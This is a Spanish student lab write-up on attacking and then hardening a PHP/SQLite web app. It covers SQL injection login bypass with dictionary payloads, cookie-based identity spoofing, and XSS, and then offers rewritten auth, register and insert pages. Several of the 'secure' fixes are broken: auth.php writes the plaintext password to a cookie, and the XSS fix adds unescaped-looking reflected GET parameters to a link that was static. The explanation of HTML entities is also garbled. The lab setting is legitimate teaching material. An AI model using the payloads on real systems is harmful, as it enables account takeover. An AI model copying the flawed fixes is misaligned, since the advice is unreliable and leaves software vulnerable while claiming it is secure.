








# Proyecto 8

## **Parte 1 - SQLi**

a) Dad un ejemplo de combinación de usuario y contraseña que provoque un error en la consulta SQL generada por este formulario. Apartir del mensaje de error obtenido, decid cuál es la consulta SQL que se ejecuta, cuál de los campos introducidos al formulario utiliza y cuál no.

En mi caso he introducido un caracter entre comillas y esto ha provocado el error.



El error que nos ha dado es el siguiente



`Invalid query: SELECT userId, password FROM users WHERE username = ""admin" --"". Field user introduced is: "admin' --”`

Aquí hay un desglose del problema y lo que el error nos dice:

- **Comillas dobles y simples incorrectas**: La consulta utiliza tanto comillas dobles como simples de manera incorrecta. En SQL, las comillas simples se usan para encerrar cadenas de texto, y las comillas dobles se usan para identificadores (como nombres de columnas o tablas) en algunos sistemas de bases de datos. La cadena `"admin" --"` intenta usar comillas dobles y dos comillas simples consecutivas, lo cual no es una sintaxis válida en SQL.
- **Intento de inyección SQL**: La cadena `admin' --` sugiere un intento de inyección SQL, donde el doble guión (`-`) se utiliza para comentar el resto de la consulta, efectivamente ignorando cualquier código SQL que venga después de ese punto.
- **La consulta original y el error**:
    
    ```sql
    SELECT userId, password FROM users WHERE username = ""admin'--""
    ```
    
    - `"admin'--"` es inválido debido al uso incorrecto de comillas dobles y simples. Debería ser algo como `'admin' --`.


| Escribo los valores | ```"admin'--"``` |
|------------------|-----------|
| En el campo | User |
| Del formulario de la pagina | http://localhost/insert_player.php# |
| La consulta que ejecuta es | ```SELECT userId, password FROM users WHERE username = ""admin" --""``` |
| La consulta SQL que se ejecuta en la consulta SQL | User |
| Campos del formulario web no utilizados en la consulta SQL | Password |


b) Gracias a la SQL Injection del apartado anterior, sabemos que este formulario es vulnerable y conocemos el nombre de los campos de la tabla “users”. Para tratar de impersonar a un usuario, nos hemos descargado un diccionario que contiene algunas de las contraseñas más utilizadas (se listan a continuación):

- password
- 123456
- 12345678
- 1234
- qwerty
- 12345678
- dragon

Dad un ataque que, utilizando este diccionario, nos permita impersonar un usuario de esta aplicación y acceder en nombre suyo. Tened en cuenta que no sabéis ni cuántos usuarios hay registrados en la aplicación, ni los nombres de estos.

La lógica usada aqui es decir que seleccione un usuario cuyo username sea admin (por poner uno) o que su contraseña sea alguna de las mencionadas

Comprobando todas las contraseñas hemos dado con esta:

`admin . '" OR password = "' . 1234`



La consulta quedaría asin:

`SELECT userId, password FROM users WHERE username = "admin" OR password = "1234"`


| Explicación del ataque  | Para llevar a cabo el ataque, la técnica consiste en enviar repetidamente la consulta con el campo de usuario configurado como: admin . '" OR password = "'.contraseña_probada, utilizando en cada intento una contraseña diferente tomada de un diccionario de contraseñas. Esto permite determinar si el nombre de usuario existe o si la contraseña es correcta. |
| ----------------------- | -------------   |
| Campo de usuario con que el ataque ha tenido exito | ```admin . '" OR password = "' . 1234``` |
| Campo contraseña con el que el ataque tiene exito  | 1234 |                                                                                                                                                                                                                                                                                                                


c) Si vais a **private/auth.php,** veréis que en la función areUserAndPasswordValid”, se utiliza “SQLite3::escapeString()”, pero, aun así, el formulario es vulnerable a SQL Injections, explicad cuál es el error de programación de esta función y como lo podéis corregir.


| Explicación del error | El error principal en la función **areUserAndPasswordValid** es que aunque se utiliza **SQLite3::escapeString()** para escapar los caracteres especiales en la consulta SQL, aún se concatena directamente la entrada del usuario (**$user**) en la cadena de consulta. Esto deja la aplicación vulnerable a ataques de inyección SQL si un atacante proporciona datos maliciosos. |
|------------------------|----------------|
| Como lo solucionamos | La forma de solucionar el problema manteniendo el  uso de **SQLite3::escapeString() , es** asegurarse de que la consulta se construya correctamente. En este caso, debemos asegurarnor de que el usuario proporcionado esté entre comillas simples en la consulta SQL. |
| Solucion: Cambiar la línea con el codigo |   ```$query = SQLite3::escapeString('SELECT userId, password FROM users WHERE username = "' . $user . '"');``` |
| por la siguiente | ```$escapedUser = SQLite3::escapeString($user);``` |
|    | ```$query = 'SELECT userId, password FROM users WHERE username = \'' . $escapedUser . '\'';``` |

d) **Si habéis tenido éxito con el *apartado b),* os habéis autenticado utilizando elusuario “luis” (si no habéis tenido éxito, podéis utilizar la contraseña “1234” para realizar este apartado). Con el objetivo de mejorar la imagen de la jugadora “Candela Pacheco”, le queremos escribir un buen puñado de comentarios positivos, pero no los queremos hacer todos con la misma cuenta de usuario.**

**Para hacer esto, en primer lugar habéis hecho un ataque de fuerza bruta sobre eldirectorio del servidor web (por ejemplo, probando nombres de archivo) y habéis encontrado el archivo “add_comment.php~”. Estos archivos seguramente se han creado como copia de seguridad al modificar el archivo “.php” original directamente al servidor. En general, los servidores web no interpretan (ejecuten) los archivos “.php~” sino que los muestran como archivos de texto sin interpretar.**

**Esto os permite estudiar el código fuente de “add_comment.php” y encontrar una vulnerabilidad para publicar mensajes en nombre de otros usuarios. ¿Cuál es esta vulnerabilidad, y cómo es el ataque que utilizáis para explotarla?**

La vulnerabilidad en el código de "add_comment.php" es que no verifica adecuadamente si el usuario actual tiene permiso para publicar un comentario en nombre de otro usuario. El script simplemente confía en el valor de la cookie 'userId' para identificar al usuario que está publicando el comentario.

Por lo tanto, cualquier usuario puede manipular esta cookie y falsificar su identidad para publicar un comentario en nombre de otro usuario. Esto significa que un atacante puede explotar esta vulnerabilidad para publicar mensajes en nombre de otros usuarios sin su autorización.


| Vulnerabilidad detectada | ``` $query = "INSERT INTO comments (playerId, userId, body) VALUES ('".$_GET['id']."', '".$_COOKIE['userId']."', '$body')"; ``` |
|----------------------|-------------------|
|            | En esta línea, el código toma el valor de la cookie userId sin verificar si realmente pertenece al usuario autenticado. |
| Descripcion del ataque | El ataque que se puede utilizar para explotar esta vulnerabilidad es un ataque de suplantación de identidad o "spoofing". El atacante puede manipular los datos enviados en la solicitud HTTP para falsificar la identidad del usuario que está publicando el comentario. |
| ¿Como podemos asegurar la entrada? | Para asegurarlo: |
| Iniciar la sesión y almacenar el userId de forma segura | ```session_start();``` |
|  |  ```if (areUserAndPasswordValid($_POST['username'], $_POST['password'])) { ```|
|  |  ```$_SESSION['userId'] = $userId;``` |
| | ```}``` |
| Usar consultas preparadas | ```$stmt = $db->prepare('INSERT INTO comments (playerId, userId, body) VALUES (?, ?, ?)');``` |
|  | ```$stmt->bindValue(1, $playerId, SQLITE3_INTEGER);``` |
|  | ```$stmt->bindValue(2, $_SESSION['userId'], SQLITE3_INTEGER);``` |
|  | ```$stmt->bindValue(3, $body, SQLITE3_TEXT);``` |
|  | ```$stmt->execute() or die("Invalid query");``` |


## **Parte 2 - XSS**

a) Para ver si hay un problema de XSS, crearemos un comentario que muestre un alert de Javascript siempre que alguien consulte el/los comentarios de aquel jugador (show_comments.php). Dad un mensaje que genere un «alert»de Javascript al consultar el listado de mensajes.


| Introduzco el mensaje | imagen |
|-------------|--------------|
| En el formulario de la página: | http://localhost/add_comment.php?id=5 |
| Alerta | imagen |






b) Por qué dice "&" cuando miráis un link(como elque aparece a la portada de esta aplicación pidiendo que realices un donativo) con parámetros GETdentro de código html si en realidad el link es sólo con "&" ?

El símbolo "&" en el enlace de donación dentro del código HTML se utiliza como una entidad HTML (&) en lugar del carácter "&" directamente. Esto es crucial para que el servidor que recibe la petición GET interprete correctamente los diferentes parámetros (amount y destination en este caso), garantizando que el navegador entienda que "&" es parte del URL y no el inicio de una entidad HTML. Esto se debe a que "&" es un carácter reservado en HTML y puede interpretarse incorrectamente por los navegadores si se utiliza directamente en el código fuente HTML.

c) Explicad cuál es el problema de show_comments.php, y cómo lo arreglaríais. Para resolver este apartado, podéis mirar el código fuente de esta página.


| ¿Cuál es el problema? | El problema principal en **`show_comments.php`** es la vulnerabilidad de XSS (Cross-Site Scripting) en la línea donde se muestra el enlace de donación en el pie de página. La URL del enlace de donación incluye parámetros GET (**`amount`** y **`destination`**) que se pasan directamente desde el código PHP al HTML sin ningún tipo de sanitización. Esto permite que un atacante pueda inyectar código JavaScript malicioso en esos parámetros y ejecutarlo en el navegador de un usuario cuando haga clic en el enlace de donación. |
|-----------------------|----------------|
| Solución | Para solucionar este problema y mejorar la seguridad del sitio, es necesario implementar una sanitización adecuada en los parámetros GET antes de insertarlos en el HTML. Una forma común de hacer esto es utilizando la función **`htmlspecialchars()`** en PHP para escapar los caracteres especiales en HTML. |
| Sustituyo el código de la/las líneas | ```<footer class="listado">```|
| | `````` |
| |  ``` <h4>Puesta en producción segura</h4>``` |
| | ```< Please <a href="http://www.donate.co?amount=100&amp;destination=ACMEScouting/"> donate</a> >``` |
| | ```</footer>``` |
| por el siguiente codigo | ```<footer class="listado">``` |
| | `````` |
| |  ```<h4>Puesta en producción segura</h4>``` |
| |  ```< Please <a href="http://www.donate.co?amount=<?php echo htmlspecialchars($_GET['amount']); ?>&amp;destination=<?php echo htmlspecialchars($_GET['destination']); ?>"> donate</a> >``` |
| | ```</footer>```|
|  | Con esta corrección, cualquier código JavaScript malicioso inyectado en los parámetros **amount** y **destination** será escapado y tratado como texto plano en lugar de ser interpretado como HTML o JavaScript, mitigando así la vulnerabilidad de XSS. |


d)  Descubrid si hay alguna otra página que esté afectada por esta misma vulnerabilidad. En caso positivo, explicad cómo lo habéis descubierto.


| Otras páginas afectadas | En **insert_player.php?id=**, el campo **id** no está sanitizado, lo que permite realizar una inyección de código. Anteriormente, observamos que el campo **id** no se estaba validando correctamente, lo que nos permitió inyectar un script malicioso que muestra un alert. |
| ¿Cómo lo he descubierto? | Buscando entre los posibles formularios a lso qu etengo acceso |


## **Parte 3 - Control de acceso, autenticación y sesiones de usuarios**

a) En el ejercicio 1, hemos visto cómo era inseguro el acceso de los usuarios a la aplicación. En la página de ***register.php*** tenemos el registro de usuario. ¿Qué medidas debemos implementar para evitar que el registro sea inseguro? Justifica esas medidas e implementa las medidas que sean factibles en este proyecto.

**Medidas de seguridad y justificación**

1. **Validación de entrada del usuario**: Es crucial validar los datos ingresados por el usuario para asegurarse de que cumplen con los requisitos esperados (por ejemplo, longitud mínima/máxima, caracteres permitidos). Esto previene la inyección de caracteres maliciosos.
2. **Escapado de la entrada del isuario**: Aunque **`SQLite3::escapeString`** ayuda a escapar caracteres especiales, es más seguro utilizar declaraciones preparadas para prevenir inyecciones SQL.
3. **Almacenamiento seguro de contraseñas**: Las contraseñas deben ser almacenadas de forma segura utilizando un algoritmo de hash adecuado (por ejemplo, **`password_hash`** en PHP), en lugar de almacenarlas en texto plano.
4. **Verificación de duplicados**: Antes de insertar un nuevo usuario, se debe verificar si el nombre de usuario ya existe en la base de datos para prevenir duplicados.
5. **Manejo seguro de errores**: Evitar mostrar mensajes de error detallados al usuario final para no revelar información sobre la estructura interna de la base de datos.

**Implementación de las medidas**

**`register.php`** con las medidas de seguridad implementadas:

```php
<?php
require_once dirname(__FILE__) . '/private/conf.php';

# Require logged users
# require dirname(__FILE__) . '/private/auth.php';

if (isset($_POST['username']) && isset($_POST['password'])) {
    # Validar la entrada del usuario
    $username = trim($_POST['username']);
    $password = trim($_POST['password']);
    
    if (empty($username) || empty($password)) {
        die("Username and password cannot be empty.");
    }

    # Utilizar declaraciones preparadas para evitar inyección SQL
    $stmt = $db->prepare("SELECT COUNT(*) FROM users WHERE username = :username");
    $stmt->bindValue(':username', $username, SQLITE3_TEXT);
    $result = $stmt->execute();
    $row = $result->fetchArray();
    
    if ($row[0] > 0) {
        die("Username already exists. Please choose another one.");
    }

    # Hash de la contraseña antes de almacenarla
    $hashed_password = password_hash($password, PASSWORD_DEFAULT);

    $stmt = $db->prepare("INSERT INTO users (username, password) VALUES (:username, :password)");
    $stmt->bindValue(':username', $username, SQLITE3_TEXT);
    $stmt->bindValue(':password', $hashed_password, SQLITE3_TEXT);
    
    if ($stmt->execute()) {
        header("Location: list_players.php");
        exit();
    } else {
        die("Error during registration. Please try again.");
    }
}
?>
<!doctype html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport"
          content="width=device-width, user-scalable=no, initial-scale=1.0, maximum-scale=1.0, minimum-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <link rel="stylesheet" href="css/style.css">
    <title>Práctica RA3 - Players list</title>
</head>
<body>
    <header>
        <h1>Register</h1>
    </header>
    <main class="player">
        <form action="#" method="post">
            <label>Username:</label>
            <input type="text" name="username" required>
            <label>Password:</label>
            <input type="password" name="password" required>
            <input type="submit" value="Send">
        </form>
        <form action="#" method="post" class="menu-form">
            <a href="list_players.php">Back to list</a>
            <input type="submit" name="Logout" value="Logout" class="logout">
        </form>
    </main>
    <footer class="listado">
        
        <h4>Puesta en producción segura</h4>
        < Please <a href="http://www.donate.co?amount=100&amp;destination=ACMEScouting/"> donate</a> >
    </footer>
</body>
</html>

```

b) En el apartado de login de la aplicación, también deberíamos implantar una serie de medidas para que sea seguro el acceso, (sin contar la del ejercicio 1.c). Como en el ejercicio anterior, justifica esas medidas e implementa las que sean factibles y necesarias (ten en cuenta las acciones realizadas en el register). Puedes mirar en la carpeta ***private***

**Medidas de seguridad**

1. Validación y sanitización de entradas

- Validación: Asegurarse de que los datos recibidos tienen el formato esperado (por ejemplo, que el nombre de usuario no contenga caracteres no permitidos).
- Sanitización: Limpiar las entradas para eliminar caracteres peligrosos que podrían ser utilizados para ataques de inyección SQL.

1. Uso de Sentencias Preparadas:

- Utilizar sentencias preparadas para prevenir inyecciones SQL. Las sentencias preparadas separan los datos de las consultas SQL, haciendo que sea imposible inyectar código malicioso a través de los parámetros.
1. Hash de Contraseñas:

- Almacenar las contraseñas en formato hash en lugar de texto plano. Esto asegura que incluso si la base de datos es comprometida, las contraseñas no serán fácilmente accesibles.

1. Uso Seguro de Cookies:

- Asegurar que las cookies de sesión no sean manipulables y que estén configuradas correctamente para ser seguras y de solo HTTP.
1. Manejo de Sesiones:
- Utilizar sesiones en lugar de cookies para el manejo de autenticación de usuarios.

**Implementación de las medidas:**

**`insert_player.php` :**

```php
<?php
require_once dirname(__FILE__) . '/private/conf.php';

// Require logged users
require dirname(__FILE__) . '/private/auth.php';

if (isset($_POST['name']) && isset($_POST['team'])) {
    // Validate and sanitize input
    $name = filter_input(INPUT_POST, 'name', FILTER_SANITIZE_STRING);
    $team = filter_input(INPUT_POST, 'team', FILTER_SANITIZE_STRING);

    // Use prepared statements to avoid SQL injection
    if (isset($_GET['id'])) {
        $query = $db->prepare("INSERT OR REPLACE INTO players (playerid, name, team) VALUES (:id, :name, :team)");
        $query->bindValue(':id', $_GET['id'], SQLITE3_INTEGER);
    } else {
        $query = $db->prepare("INSERT INTO players (name, team) VALUES (:name, :team)");
    }
    $query->bindValue(':name', $name, SQLITE3_TEXT);
    $query->bindValue(':team', $team, SQLITE3_TEXT);

    $query->execute() or die("Invalid query");
} else {
    // Show info to modify
    if (isset($_GET['id'])) {
        $id = filter_input(INPUT_GET, 'id', FILTER_SANITIZE_NUMBER_INT);
        
        $query = $db->prepare("SELECT name, team FROM players WHERE playerid = :id");
        $query->bindValue(':id', $id, SQLITE3_INTEGER);
        $result = $query->execute() or die ("Invalid query");
        
        $row = $result->fetchArray() or die ("Modifying a nonexistent player!");
        
        $name = htmlspecialchars($row['name']);
        $team = htmlspecialchars($row['team']);
    }
}

// Show form
?>
<!doctype html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, user-scalable=no, initial-scale=1.0, maximum-scale=1.0, minimum-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <link rel="stylesheet" href="css/style.css">
    <title>Práctica RA3 - Players list</title>
</head>
<body>
<header>
    <h1>Player</h1>
</header>
<main class="player">
    <form action="#" method="post">
        <input type="hidden" name="id" value="<?= htmlspecialchars($id) ?>"><br>
        <h3>Player name</h3>
        <textarea name="name"><?= htmlspecialchars($name) ?></textarea><br>
        <h3>Team name</h3>
        <textarea name="team"><?= htmlspecialchars($team) ?></textarea><br>
        <input type="submit" value="Send">
    </form>
    <form action="#" method="post" class="menu-form">
        <a href="index.php">Back to home</a>
        <a href="list_players.php">Back to list</a>
        <input type="submit" name="Logout" value="Logout" class="logout">
    </form>
</main>
<footer class="listado">
    
    <h4>Puesta en producción segura</h4>
    < Please <a href="http://www.donate.co?amount=100&amp;destination=ACMEScouting/"> donate</a> >
</footer>
</body>
</html>

```

**`auth.php` :**

```php
<?php
require_once dirname(__FILE__) . '/conf.php';

$userId = FALSE;

// Hash passwords before storing them
function hashPassword($password) {
    return password_hash($password, PASSWORD_BCRYPT);
}

// Verify hashed password
function verifyPassword($password, $hash) {
    return password_verify($password, $hash);
}

// Check whether a pair of user and password are valid; returns true if valid.
function areUserAndPasswordValid($user, $password) {
    global $db, $userId;

    // Use prepared statements to avoid SQL injection
    $query = $db->prepare('SELECT userId, password FROM users WHERE username = :username');
    $query->bindValue(':username', $user, SQLITE3_TEXT);
    
    $result = $query->execute() or die("Invalid query");
    $row = $result->fetchArray();

    if ($row && verifyPassword($password, $row['password'])) {
        $userId = $row['userId'];
        $_SESSION['userId'] = $userId;
        return TRUE;
    }
    return FALSE;
}

session_start();

// On login
if (isset($_POST['username']) && isset($_POST['password'])) {
    $_SESSION['user'] = $_POST['username'];
    $_SESSION['password'] = $_POST['password'];
}

// On logout
if (isset($_POST['Logout'])) {
    // Delete session variables
    session_unset();
    session_destroy();

    header("Location: index.php");
    exit;
}

// Check user and password
if (isset($_SESSION['user']) && isset($_SESSION['password'])) {
    if (areUserAndPasswordValid($_SESSION['user'], $_SESSION['password'])) {
        $login_ok = TRUE;
        $error = "";
    } else {
        $login_ok = FALSE;
        $error = "Invalid user or password.<br>";
    }
} else {
    $login_ok = FALSE;
    $error = "This page requires you to be logged in.<br>";
}

if ($login_ok == FALSE) {
?>
<!doctype html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, user-scalable=no, initial-scale=1.0, maximum-scale=1.0, minimum-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <link rel="stylesheet" href="css/style.css">
    <title>Práctica RA3 - Authentication page</title>
</head>
<body>
<header class="auth">
    <h1>Authentication page</h1>
</header>
<section class="auth">
    <div class="message">
        <?= htmlspecialchars($error) ?>
    </div>
    <section>
        <div>
            <h2>Login</h2>
            <form action="#" method="post">
                <label>User</label>
                <input type="text" name="username"><br>
                <label>Password</label>
                <input type="password" name="password"><br>
                <input type="submit" value="Login">
            </form>
        </div>

        <div>
            <h2>Logout</h2>
            <form action="#" method="post">
                <input type="submit" name="Logout" value="Logout">
        </div>
    </section>
</section>
<footer>
    <h4>Puesta en producción segura</h4>
    < Please <a href="http://www.donate.co?amount=100&amp;destination=ACMEScouting/"> donate</a> >
</footer>
<?php
    exit (0);
}

?>

<?php
setcookie('user', $_SESSION['user'], time() + 3600, "", "", false, true);
setcookie('password', $_SESSION['password'], time() + 3600, "", "", false, true);
?>

```

**`register.php` :**

```php
<?php
require_once dirname(__FILE__) . '/private/conf.php';

// Hash passwords before storing them
function hashPassword($password) {
    return password_hash($password, PASSWORD_BCRYPT);
}

if (isset($_POST['username']) && isset($_POST['password'])) {
    // Validate and sanitize input
    $username = filter_input(INPUT_POST, 'username', FILTER_SANITIZE_STRING);
    $password = filter_input(INPUT_POST, 'password', FILTER_SANITIZE_STRING);

    // Hash the password
    $hashed_password = hashPassword($password);

    // Use prepared statements to avoid SQL injection
    $query = $db->prepare("INSERT INTO users (username, password) VALUES (:username, :password)");
    $query->bindValue(':username', $username, SQLITE3_TEXT);
    $query->bindValue(':password', $hashed_password, SQLITE3_TEXT);

    $query->execute() or die("Invalid query");
}

// Registration form
?>
<!doctype html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, user-scalable=no, initial-scale=1.0, maximum-scale=1.0, minimum-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <link rel="stylesheet" href="css/style.css">
    <title>Práctica RA3 - Register</title>
</head>
<body>
<header>
    <h1>Register</h1>
</header>
<main class="register">
    <form action="#" method="post">
        <label>Username</label>
        <input type="text" name="username"><br>
        <label>Password</label>
        <input type="password" name="password"><br>
        <input type="submit" value="Register">
    </form>
</main>
<footer>
    <h4>Puesta en producción segura</h4>
    < Please <a href="http://www.donate.co?amount=100&amp;destination=ACMEScouting/"> donate</a> >
</footer>
</body>
</html>

```

### **Justificación de las medidas:**

- **Validación y sanitización**: Evita la inyección de datos maliciosos y asegura que solo se procesen datos válidos.
- **Sentencias preparadas**: Protegen contra inyecciones SQL, una de las vulnerabilidades más comunes.
- **Hash de contraseñas**: Protege las contraseñas en caso de que la base de datos sea comprometida.
- **Uso seguro de cookies**: Asegura que las cookies no sean manipuladas ni interceptadas.
- **Manejo de sesiones**: Proporciona un manejo más seguro de la autenticación de usuarios en comparación con el uso de cookies.

c) Volvemos a la página de ***register.php***, vemos que está accesible para cualquier usuario, registrado o sin registrar. Al ser una aplicación en la cual no debería dejar a los usuarios registrarse, qué medidas podríamos tomar para poder gestionarlo e implementa las medidas que sean factibles en este proyecto.

**Medidas de seguridad**

1. **Autenticación y autorización**: Solo los usuarios autenticados y autorizados deben tener acceso a la página de registro.
2. **Redirección de usuarios no autorizados**: Si un usuario no tiene permiso para acceder a la página, debe ser redirigido a otra página, como la página principal o una página de error.
3. **Uso de sesiones**: Implementar el uso de sesiones para mantener la autenticación del usuario de manera segura.

**Implementación de las medidas:**

**`auth.php` :**

 Verificando si el usuario tiene permisos de administrador.

```php
<?php
require_once dirname(__FILE__) . '/conf.php';

session_start();

$userId = FALSE;
$isAdmin = FALSE;

// Hash passwords before storing them
function hashPassword($password) {
    return password_hash($password, PASSWORD_BCRYPT);
}

// Verify hashed password
function verifyPassword($password, $hash) {
    return password_verify($password, $hash);
}

// Check whether a pair of user and password are valid; returns true if valid.
function areUserAndPasswordValid($user, $password) {
    global $db, $userId, $isAdmin;

    // Use prepared statements to avoid SQL injection
    $query = $db->prepare('SELECT userId, password, isAdmin FROM users WHERE username = :username');
    $query->bindValue(':username', $user, SQLITE3_TEXT);
    
    $result = $query->execute() or die("Invalid query");
    $row = $result->fetchArray();

    if ($row && verifyPassword($password, $row['password'])) {
        $userId = $row['userId'];
        $isAdmin = $row['isAdmin'];
        $_SESSION['userId'] = $userId;
        $_SESSION['isAdmin'] = $isAdmin;
        return TRUE;
    }
    return FALSE;
}

// On login
if (isset($_POST['username']) && isset($_POST['password'])) {
    $_SESSION['user'] = $_POST['username'];
    $_SESSION['password'] = $_POST['password'];
}

// On logout
if (isset($_POST['Logout'])) {
    // Delete session variables
    session_unset();
    session_destroy();

    header("Location: index.php");
    exit;
}

// Check user and password
if (isset($_SESSION['user']) && isset($_SESSION['password'])) {
    if (areUserAndPasswordValid($_SESSION['user'], $_SESSION['password'])) {
        $login_ok = TRUE;
        $error = "";
    } else {
        $login_ok = FALSE;
        $error = "Invalid user or password.<br>";
    }
} else {
    $login_ok = FALSE;
    $error = "This page requires you to be logged in.<br>";
}

if ($login_ok == FALSE) {
?>
<!doctype html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, user-scalable=no, initial-scale=1.0, maximum-scale=1.0, minimum-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <link rel="stylesheet" href="css/style.css">
    <title>Práctica RA3 - Authentication page</title>
</head>
<body>
<header class="auth">
    <h1>Authentication page</h1>
</header>
<section class="auth">
    <div class="message">
        <?= htmlspecialchars($error) ?>
    </div>
    <section>
        <div>
            <h2>Login</h2>
            <form action="#" method="post">
                <label>User</label>
                <input type="text" name="username"><br>
                <label>Password</label>
                <input type="password" name="password"><br>
                <input type="submit" value="Login">
            </form>
        </div>

        <div>
            <h2>Logout</h2>
            <form action="#" method="post">
                <input type="submit" name="Logout" value="Logout">
            </div>
        </section>
    </section>
<footer>
    <h4>Puesta en producción segura</h4>
    < Please <a href="http://www.donate.co?amount=100&amp;destination=ACMEScouting/"> donate</a> >
</footer>
<?php
    exit (0);
}

?>

<?php
setcookie('user', $_SESSION['user'], time() + 3600, "", "", false, true);
setcookie('password', $_SESSION['password'], time() + 3600, "", "", false, true);
?>

```

Vamos a actualizar **`register.php`** para que solo permita el acceso a los usuarios administradores.

```php
<?php
require_once dirname(__FILE__) . '/private/conf.php';

session_start();

// Require logged users and check if admin
if (!isset($_SESSION['userId']) || !$_SESSION['isAdmin']) {
    header("Location: index.php");
    exit;
}

if (isset($_POST['username']) && isset($_POST['password'])) {
    // Validate and sanitize input
    $username = filter_input(INPUT_POST, 'username', FILTER_SANITIZE_STRING);
    $password = filter_input(INPUT_POST, 'password', FILTER_SANITIZE_STRING);

    // Hash the password
    $hashed_password = password_hash($password, PASSWORD_BCRYPT);

    // Use prepared statements to avoid SQL injection
    $query = $db->prepare("INSERT INTO users (username, password) VALUES (:username, :password)");
    $query->bindValue(':username', $username, SQLITE3_TEXT);
    $query->bindValue(':password', $hashed_password, SQLITE3_TEXT);

    $query->execute() or die("Invalid query");
    header("Location: list_players.php");
}

// Show form
?>
<!doctype html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, user-scalable=no, initial-scale=1.0, maximum-scale=1.0, minimum-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <link rel="stylesheet" href="css/style.css">
    <title>Práctica RA3 - Register</title>
</head>
<body>
<header>
    <h1>Register</h1>
</header>
<main class="player">
    <form action="#" method="post">
        <label>Username:</label>
        <input type="text" name="username">
        <label>Password:</label>
        <input type="password" name="password">
        <input type="submit" value="Send">
    </form>
    <form action="#" method="post" class="menu-form">
        <a href="list_players.php">Back to list</a>
        <input type="submit" name="Logout" value="Logout" class="logout">
    </form>
</main>
<footer class="listado">
    
    <h4>Puesta en producción segura</h4>
